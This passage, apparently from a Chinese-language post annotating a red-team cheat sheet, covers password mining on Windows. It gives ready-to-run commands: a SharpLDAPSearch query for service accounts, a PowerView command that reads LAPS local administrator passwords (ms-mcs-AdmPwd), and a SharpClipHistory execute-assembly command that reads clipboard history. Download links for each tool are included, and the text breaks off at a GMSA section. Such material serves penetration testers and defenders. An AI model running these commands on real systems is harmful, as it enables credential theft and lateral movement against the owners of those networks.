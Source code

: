   

批注：[https://github.com/vivami/SauronEye/releases/tag/v0.0.9](https://link.zhihu.com/?target=https%3A//github.com/vivami/SauronEye/releases/tag/v0.0.9)

### **Password Mining in LDAP**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`SharpLDAPSearch.exe "(&(objectClass=user)(cn=*svc*))" "sam用户名"`

Or

`Import-Module .\PowerView.ps1`

`Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime`

  

批注：

sharpldapsearch：[https://github.com/mitchmoser/SharpLDAPSearch/releases/tag/v1.2](https://link.zhihu.com/?target=https%3A//github.com/mitchmoser/SharpLDAPSearch/releases/tag/v1.2)

powerview：好多个版本，应该是这个吧？[https://github.com/ericshoemaker/PowerView](https://link.zhihu.com/?target=https%3A//github.com/ericshoemaker/PowerView)

### **Password Mining in Clipboard**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`execute-assembly /root/SharpClipHistory.exe`

  

批注：[https://github.com/FSecureLABS/SharpClipHistory/releases/tag/v1.0](https://link.zhihu.com/?target=https%3A//github.com/FSecureLABS/SharpClipHistory/releases/tag/v1.0)

### **Password Mining in GMSA Password**

域：No

Local Admin: Yes

